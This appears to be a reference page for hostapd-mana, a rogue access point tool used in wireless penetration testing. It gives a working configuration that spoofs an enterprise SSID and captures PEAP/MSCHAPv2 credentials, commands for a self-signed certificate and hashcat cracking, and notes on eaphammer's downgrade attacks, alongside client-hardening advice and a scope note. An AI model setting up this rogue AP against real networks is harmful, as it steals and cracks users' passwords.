

# hostapd-mana

A modified version of hostapd designed for wireless security assessment. It
operates as a rogue access point that captures EAP credentials from clients
attempting to authenticate against a spoofed enterprise network.

## Conceptual Flow



hostapd-mana terminates the outer TLS tunnel itself, so it can observe the
inner MSCHAPv2 exchange. The client receives an EAP-Failure (the rogue AP
does not know the password), but the credentials are already captured.

## Why Client Certificate Validation Matters

hostapd-mana only captures credentials from clients that accept the rogue AP's
certificate without validation. Properly configured clients (certificate pinned,
CA validated) reject the connection at TLS handshake and expose nothing.

Corporate device hardening should always configure:
- Server certificate validation enabled
- CA certificate pinned to the organization's CA
- Domain name validation

Without these settings, the rogue AP attack succeeds.

## Configuration

Minimal `hostapd-mana.conf` for PEAP/MSCHAPv2 capture:

```ini
interface=wlan0
driver=nl80211
ssid=TargetNetworkName
channel=6
hw_mode=g

# WPA2-Enterprise
auth_algs=1
wpa=2
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP
ieee8021x=1

# EAP configuration
eap_server=1
eap_user_file=/etc/hostapd-mana/mana.eap_user
ca_cert=/etc/hostapd-mana/certs/ca.pem
server_cert=/etc/hostapd-mana/certs/server.pem
private_key=/etc/hostapd-mana/certs/server.key

# mana-specific: credential capture
mana_wpe=1
mana_credout=/tmp/mana_creds.txt
```

```ini
# /etc/hostapd-mana/mana.eap_user
* PEAP,EAP-TTLS,LEAP
"t" MSCHAPV2 "t" [2]
```

## Credential Output Format

hostapd-mana writes captured credentials to the `mana_credout` file:

```
MSCHAPV2: user | challenge | response
```

Convert to hashcat mode 5500 format:

```
username::::NT-Response:authenticator-challenge
```

Then crack with:

```bash
hashcat -m 5500 creds.hc5500 wordlist.txt
```

## Certificate Generation

```bash
# Generate self-signed certificate for the rogue AP
openssl req -new -x509 -days 365 -nodes \
    -out /etc/hostapd-mana/certs/server.pem \
    -keyout /etc/hostapd-mana/certs/server.key \
    -subj "/CN=wifi.example.com/O=Example Corp/C=US"
```

Clients that don't validate the server certificate accept any cert, including
self-signed.

## eaphammer Alternative

eaphammer is a Python-based tool that wraps hostapd with additional automation:

- Automatic certificate generation
- GTC downgrade attacks (force weaker EAP inner method)
- Integrated hash formatting for hashcat
- ESSID harvesting from probe requests

Upstream: `https://github.com/s0lst1c3/eaphammer`

## Scope Note

This page covers conceptual flow and configuration reference for authorized
security testing. Deploying a rogue AP against networks without explicit written
permission from the network owner is illegal.
